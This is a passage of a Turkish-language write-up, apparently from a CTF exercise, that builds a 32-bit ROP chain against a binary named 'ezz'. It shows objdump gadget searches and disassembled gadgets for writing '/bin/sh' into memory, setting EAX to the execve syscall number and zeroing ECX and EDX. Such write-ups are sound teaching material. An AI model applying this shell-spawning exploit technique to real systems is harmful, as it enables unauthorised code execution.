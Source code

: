 EAX, EDI, EDX sonra EBX bu 3 yerden birinde offset yazması olması lazım:

```shell
objdump -S ezz -M intel | grep "mov    DWORD PTR \[eax+" -A 4 | grep ret -B 4
objdump -S ezz -M intel | grep "mov    DWORD PTR \[edi+" -A 4 | grep ret -B 4
objdump -S ezz -M intel | grep "mov    DWORD PTR \[edx+" -A 4 | grep ret -B 4

 80bd7de:    89 42 14                 mov    DWORD PTR [edx+0x14],eax
 80bd7e1:    5f                       pop    edi
 80bd7e2:    c3                       ret 
```

Harika! “/bin/sh” EDX teyken EAX’ı xorlayıp oraya yazdırabiliriz. 0x14 yani decimal 20. O zaman bize 14 tane slash ve sonra bin/sh lazım. Sonrası NUL byte olur. Bu da cebizde dursun. Konu anlaşıldığına göre biraz hızlandıralım. EAX’ı 11 yapmamız lazım:

```shell
 8092be0:    b8 07 00 00 00           mov    eax,0x7
 8092be5:    c3			      ret
...
 8092b60:    83 c0 03                 add    eax,0x3
 8092b63:    c3                       ret  
...
 8092b50:    83 c0 01                 add    eax,0x1
 8092b53:    c3                       ret
```

Bunlar bize yeter. Şimdi ise Bizim ECX ve EDX’i sıfırlamamız lazım. ECX bu arada baştan sona kadar hiç dokunulmuyor. Bu bizim çok işimize gelir. 

```shell
 8049713:    31 c9                    xor    ecx,ecx
 8049715:    5b                       pop    ebx
 8049716:    89 c8                    mov    eax,ecx
 8049718:    5e                       pop    esi
 8049719:    5f                       pop    edi
 804971a:    5d                       pop    ebp
 804971b:    c3                       ret  
```

ECX’i burdan sıfırlayabiliriz ama dikkat etmemiz gereken bir husus var. EAX burda değişecek o yüzden elimizde ki /bin/sh yazısını EDX’e falan attıktan sonra buraya atlamalıyız.

Sırada EDX var beni en çok yoran register. Aradım taradım düz bişey bulamadım ama iki tane şey buldum arka arkaya gelirse işi çözecek:

```shell
80bc1c6:    ba 01 00 00 00           mov    edx,0x1
 80bc1cb:    0f 47 c2                 cmova  eax,edx
 80bc1ce:    c3                       ret 
...
 808fc9e:    c1 fa 02                 sar    edx,0x2
 808fca1:    29 d0                    sub    eax,edx
 808fca3:    c3                       ret 
```

Bu iki yer ile beraber EDX’i sıfırlayabiliriz. İlk önce EDX’e 1 atıyoruz sonra SAR ile sağa doğru shift edince sıfırlanıyor. 
